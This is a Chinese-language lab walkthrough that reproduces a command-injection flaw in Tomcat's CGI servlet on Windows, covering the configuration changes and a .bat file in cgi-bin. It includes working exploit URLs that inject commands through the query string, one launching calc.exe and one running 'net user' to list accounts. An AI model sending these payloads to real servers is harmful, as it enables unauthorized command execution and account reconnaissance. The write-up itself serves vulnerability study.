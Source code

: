 需要修改 cgi 的路径，修改后的路径如下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKrAkJtZEuB8e9gG0HOxbHpY9l1RhpXEbWRkZDUQSQ9yqopGZWkfOib6nBCxjK5HhZWNE4Q4eqnhEXw/640?wx_fmt=png&from=appmsg "")  
  
然后在 conf/web.xml 中启用 cgi 的 servlet-mapping（删除注释）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKrAkJtZEuB8e9gG0HOxbHpYzkI6lIm4D6gRzh9hj2uUV3KAMwS9wlo9xqC5qCKMbfFibGWAqOGT1RA/640?wx_fmt=png&from=appmsg "")  
  
然后在 conf/content.xml 中添加privileged="true"属性，否则没有权限  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKrAkJtZEuB8e9gG0HOxbHpYaRsCvztK1ZQn87z3WCkic1HADhsDTYcPlYGS2vhjTp9mQ3jgIoCAKzA/640?wx_fmt=png&from=appmsg "")  
  
在 \webapps\ROOT\WEB-INF下创建 cgi-bin目录，注意：目录名称一定和 web.xml 文件中的目录名保持一致。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKrAkJtZEuB8e9gG0HOxbHpYNFvGmz1VUdBm5WrxT16bOWuBs2un3e5g2zCGM4FCjO66cT0fOewT2A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKrAkJtZEuB8e9gG0HOxbHpYQoIQrn5guDo4EYjcepLJsGHARUMHgJhLJOnN8nWb7vY5CSPQsibRX0A/640?wx_fmt=png&from=appmsg "")  
  
在 cgi-bin目录下创建一个 bat 文件  
  
文件内容：1  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKrAkJtZEuB8e9gG0HOxbHpYBF8SNYRKo2DeQV7vmUXD0BzUomzeSQ0ZIJq2G9GUreA9iatAUd9jUDQ/640?wx_fmt=png&from=appmsg "")  
  
重启 tomcat  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKrAkJtZEuB8e9gG0HOxbHpY8g8tSXpOeLkzRh18j57AibadK6tiaMMkfu3fKgwXVvRP4w3bKQ4kpaoQ/640?wx_fmt=png&from=appmsg "")  
  
漏洞复现  
  
虚拟机中访问 tomcat  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKrAkJtZEuB8e9gG0HOxbHpYP9DOoTRVVcqsJaFSpaZA45icS2vhqF4Qc5GxvxtuGYpKhonLjzIuPqw/640?wx_fmt=png&from=appmsg "")  
  
访问 bat 文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKrAkJtZEuB8e9gG0HOxbHpYaGI1q0Fe4ruq76r7rXos5JEpjMKic00raM0YwBynoziaRU64viaibRjGXA/640?wx_fmt=png&from=appmsg "")  
  
添加参数  
```
?&C%3A%5CWindows%5CSystem32%5Ccalc.exe
```  
  
完整的URL  
```
http://192.168.235.9:8080/cgi-bin/shell.bat?&C%3A%5CWindows%5CSystem32%5Ccalc.exe
```  
  
访问之后在物理主机 windows11 中启动了计算器  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKrAkJtZEuB8e9gG0HOxbHpYXVpXT6S04bSf8FT6UnwJFtOmWSiaCb48S8pWKoYibictbngdTe61b53Mg/640?wx_fmt=png&from=appmsg "")  
  
查看账户信息  
```
http://192.168.235.9:8080/cgi-bin/shell.bat?&C%3a%5cWindows%5cSystem32%5Cnet+user
```  
  